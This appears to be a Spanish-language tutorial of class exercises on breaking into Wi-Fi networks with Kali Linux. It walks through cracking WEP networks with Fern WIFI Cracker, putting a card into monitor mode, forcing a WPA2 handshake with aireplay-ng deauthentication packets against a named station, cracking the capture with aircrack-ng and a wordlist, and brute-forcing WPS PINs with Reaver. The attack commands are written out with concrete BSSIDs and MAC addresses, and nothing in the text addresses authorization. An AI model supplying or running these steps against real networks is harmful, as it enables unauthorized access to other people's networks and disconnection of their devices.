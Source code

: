 EJERCICIO (FERN WIFI CRACKER)

1. Abrimos **Fern WIFI Cracker** en Kali
2. Seleccionamos la interfaz WLAN0 o tarjeta inalámbrica de la maquina
3. Escaneamos los puntos de acceso
4. Abrimos las redes WEP detectadas
5. Se selecciona la red y en **Attack**
6. Finalmente obtendremos la contraseña en la parte inferior

EJERCICIO (FUERZA BRUTA)

1. En la terminal Kali ejecutamos **airmon-ng** para ver nuestra interfaz de tarjeta
2. Ahora pondremos nuestra tarjeta en modo monitoreo:

**airmon-ng start &lt;Interface&gt;**

1. Es probable que nos dé un error debido a más procesos que interfieren por lo que tendremos que terminarlos con **kill &lt;PID&gt;** (ID DEL PROCESO)
2. Comenzaremos el monitoreo: **airodump-ng wlan0mon** (nuestra interfaz)
3. Ahora monitorearemos la red especifica: airodump-ng -w &lt;nombre Archivo&gt; -c &lt;CH de la red&gt; --bssid &lt;BSSID de la red&gt; wlan0mon

**airodump-ng -w attack1 -c 3 --bssid 5C:E9:31:01:36:DF wlan0mon**

1. Ahora ocupamos un **Handshake** de la red por lo que en otra terminal ejecutaremos: aireplay-ng -0 &lt;paquetesAEnviar&gt; -a &lt;BSSID&gt; -c &lt;STATION&gt; wlan0mon  
    **aireplay-ng -0 10 -a 5C:E9:31:01:36:DF -c D8:1F:12:B4:41:A9 wlan0mon**
2. Y ahora en la anterior terminal deberíamos tener el HANDSHAKE en la parte superior derecha. EJEMPLO:
3. Y ahora podemos detener este monitoreo y cerrar la otra terminal
4. Y ahora intentaremos entrar en la red: aircrack-ng -w &lt;ubicacionListaPalabras&gt; -b &lt;SSID&gt; &lt;archivoCapCreadoDelMonitoreoAnterior&gt;

**aircrack-ng -w /Desktop/wordlist.txt -b 5C:E9:31:01:36:DF /home/rusian/attack1.cap**

1. Comenzará a probar todas las combinaciones de la lista de palabras (wordlist.txt) para encontrar la correcta de la red.

EXTRA

Las redes WPA2 son muy fuertes y no se pueden violar simplemente por ensayo y error como en la WEP por lo que es necesario tener una lista de palabras y dependiendo si esta lista es fuerte podrá ser posible descifrar mejor esta red mientras que si es débil esta lista no será posible por lo que en este caso usamos un ataque de fuerza bruta el cual evalúa todas las palabras de la lista que conseguí para descifrar la contraseña.

El archivo CAP por defecto debería guardarse en nuestra carpeta Home y se crea con el nombre que nosotros antes le asignamos, y aunque al hacer el monitoreo se crean más tipos de archivos con el mismo nombre solo será necesario utilizar en este caso el (.cap)

Este método para estas redes suele ser tardado y no muy fiable de éxito

EJERCICIO

1. Con el comando **_wash_** y **_reaver_** en la terminal se nos mostraran varias opciones a usar
2. Abrimos el modo monitoreo de nuestra tarjeta de red:

**_wash -i wlan0mon_**

1. Y para comenzar simplemente ejecutamos:

**_reaver -i wlan0mon -b &lt;BSSID&gt; -vv_**

1. Y al final podremos obtener el pin WPS

Este método puede durar bastante, ya sea un par de horas o incluso días, pero se nos podrá mostrar el pin WPS y la contraseña WPA2 para podernos conectar a la red, pero si el usuario cambio la contraseña de la red solo debemos cambiar la opción -vv por -p &lt;pinDe8Digitos&gt; el cual ya obtuvimos antes con el escaneo anterior y obtendremos la contraseña WPA2 de nuevo en cuestión de segundos.

**_reaver -i wlan0mon -b &lt;BSSID&gt; -p &lt;pin&gt;_**

EXTRA

Para regresar nuestra tarjeta de red al modo normal hay dos formas:

- Reiniciando la maquina
- Reiniciando los servicios por Terminal
  - **airmon-ng stop wlan0mon**
  - **ifconfig wlan0 up**
  - **service NetworkManager restart**
